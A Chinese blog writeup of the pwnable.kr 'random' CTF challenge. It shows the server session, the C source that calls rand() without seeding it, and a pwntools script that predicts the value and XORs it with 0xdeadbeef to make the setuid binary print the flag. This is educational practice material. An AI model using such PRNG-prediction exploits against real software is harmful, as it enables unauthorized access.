

<!--yml
category: 未分类
date: 2022-04-26 14:21:58
-->

# PWN random [pwnable.kr]CTF writeup题解系列6_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103796673](https://blog.csdn.net/fastergohome/article/details/103796673)

**目录**

[0x01 题目](#0x01%20%E9%A2%98%E7%9B%AE)

[0x02 解题思路](#0x02%20%E8%A7%A3%E9%A2%98%E6%80%9D%E8%B7%AF)

[0x03 题解](#0x03%20%E9%A2%98%E8%A7%A3)

* * *

# 0x01 题目




# 0x02 解题思路

题目比较简单，直接贴出过程

```
root@mypwn:/ctf/work/pwnable.kr# ssh random@pwnable.kr -p2222
random@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 06:42:20 2020 from 220.127.44.200
random@prowl:~$ ls -la
total 40
drwxr-x---   5 root       random 4096 Oct 23  2016 .
drwxr-xr-x 116 root       root   4096 Nov 12 21:34 ..
d---------   2 root       root   4096 Jun 30  2014 .bash_history
-r--r-----   1 random_pwn root     49 Jun 30  2014 flag
dr-xr-xr-x   2 root       root   4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root       root   4096 Oct 23  2016 .pwntools-cache
-r-sr-x---   1 random_pwn random 8538 Jun 30  2014 random
-rw-r--r--   1 root       root    301 Jun 30  2014 random.c
random@prowl:~$ cat .pwntools-cache/update 
.bash_history/   flag             .irssi/          .pwntools-cache/ random           random.c         
random@prowl:~$ cat .pwntools-cache/update 
never
random@prowl:~$ ls .pwntools-cache/
update
random@prowl:~$ ls .pwntools-cache/ -la
total 12
drwxr-xr-x 2 root root   4096 Oct 23  2016 .
drwxr-x--- 5 root random 4096 Oct 23  2016 ..
-rw-r--r-- 1 root root      6 Oct 31  2016 update
random@prowl:~$ ls -la /lib/
total 376
drwxr-xr-x 23 root root   4096 May 19  2019 .
drwxr-xr-x 25 root root   4096 May 17  2019 ..
drwxr-xr-x  2 root root   4096 May 14  2019 apparmor
lrwxrwxrwx  1 root root     21 May  7  2019 cpp -> /etc/alternatives/cpp
drwxr-xr-x  3 root root   4096 May 14  2019 crda
drwxr-xr-x  4 root root   4096 May  8  2019 cryptsetup
drwxr-xr-x 79 root root  36864 May 15  2019 firmware
drwxr-xr-x  2 root root   4096 May  7  2019 hdparm
drwxr-xr-x  2 root root   4096 May 19  2019 i386-linux-gnu
drwxr-xr-x  2 root root   4096 May 14  2019 ifupdown
drwxr-xr-x  2 root root   4096 May  8  2019 init
-rwxr-xr-x  1 root root  70952 Nov 14  2017 klibc-k3La8MUnuzHQ0_kG8hokcGAC0PA.so
lrwxrwxrwx  1 root root     25 Feb  5  2019 ld-linux.so.2 -> i386-linux-gnu/ld-2.23.so
lrwxrwxrwx  1 root root     18 Sep  8  2017 libhandle.so.1 -> libhandle.so.1.0.3
-rw-r--r--  1 root root  14464 Sep  8  2017 libhandle.so.1.0.3
drwxr-xr-x  3 root root   4096 May  8  2019 lsb
drwxr-xr-x  2 root root   4096 May 15  2019 modprobe.d
drwxr-xr-x  4 root root   4096 May 15  2019 modules
drwxr-xr-x  2 root root   4096 May 14  2019 modules-load.d
drwxr-xr-x  2 root root   4096 May 14  2019 open-iscsi
drwxr-xr-x  3 root root   4096 May 14  2019 recovery-mode
drwxr-xr-x  2 root root   4096 May  8  2019 resolvconf
drwxr-xr-x  8 root root   4096 May 14  2019 systemd
drwxr-xr-x 15 root root   4096 May  8  2019 terminfo
drwxr-xr-x  4 root root   4096 May 14  2019 udev
drwxr-xr-x  2 root root   4096 May  8  2019 ufw
drwxr-xr-x  4 root root  16384 May 19  2019 x86_64-linux-gnu
drwxr-xr-x  2 root root   4096 May  8  2019 xtables
-rwxr-xr-x  1 root root 147688 May 19  2019 zz-linux.so.2
random@prowl:~$ checksec random
[*] '/home/random/random'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
random@prowl:~$ checksec /lib/ld-linux.so.2 
[*] '/lib/ld-linux.so.2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
random@prowl:~$ ls /lib/x86_64-linux-gnu/libc
libc-2.23.so            libcidn-2.23.so         libcom_err.so.2.1       libcrypto.so.1.0.0      libcrypt.so.1
libcap.so.2             libcidn.so.1            libcrypt-2.23.so        libcryptsetup.so.4      libc.so.6
libcap.so.2.24          libcom_err.so.2         libcrypto.so.10         libcryptsetup.so.4.6.0  
random@prowl:~$ ls /lib/x86_64-linux-gnu/libc-2.23.so -la
-rwxr-xr-x 1 root root 1868984 Feb  5  2019 /lib/x86_64-linux-gnu/libc-2.23.so
random@prowl:~$ checksec /lib/x86_64-linux-gnu/libc-2.23.so 
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled 
```

确定了服务器使用的libc，看下代码：

```
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

没什么问题，没有设置随机种子，那么就可以直接利用

payload设置如下：

```
payload = 0xdeadbeef ^ libc.rand()
```

# 0x03 题解

编写python代码如下：

```
#coding:utf8
#!/usr/bin/env python

from pwn import *
from ctypes import *
context.log_level='debug'
process_name = './random'
p = process(process_name)
# elf = ELF(process_name)

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc-2.23.so')
# libc = cdll.LoadLibrary('../python/history/libc-2.23.so')
# libc.srand(1)

payload = 0xdeadbeef ^ libc.rand()
p.sendline(str(payload))

p.interactive()
```

服务器上执行结果如下：

```
random@prowl:~$ python
Python 2.7.12 (default, Nov 12 2018, 14:36:49) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> #coding:utf8
... 
>>> from pwn import *
>>> from ctypes import *
>>> context.log_level='debug'
>>> process_name = './random'
>>> p = process(process_name)
[x] Starting local process './random'
[+] Starting local process './random': pid 199728
>>> # elf = ELF(process_name)
... 
>>> libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc-2.23.so')
>>> # libc = cdll.LoadLibrary('../python/history/libc-2.23.so')
... # libc.srand(1)
... 
>>> payload = 0xdeadbeef ^ libc.rand()
>>> p.sendline(str(payload))
[DEBUG] Sent 0xb bytes:
    '3039230856\n'
>>> 
>>> 
>>> p.interactive()
[*] Switching to interactive mode
[*] Process './random' stopped with exit code 0 (pid 199728)
[DEBUG] Received 0x37 bytes:
    'Good!\n'
    'Mommy, I thought libc random is unpredictable...\n'
Good!
Mommy, I thought libc random is unpredictable...
[*] Got EOF while reading in interactive
```

上传flag

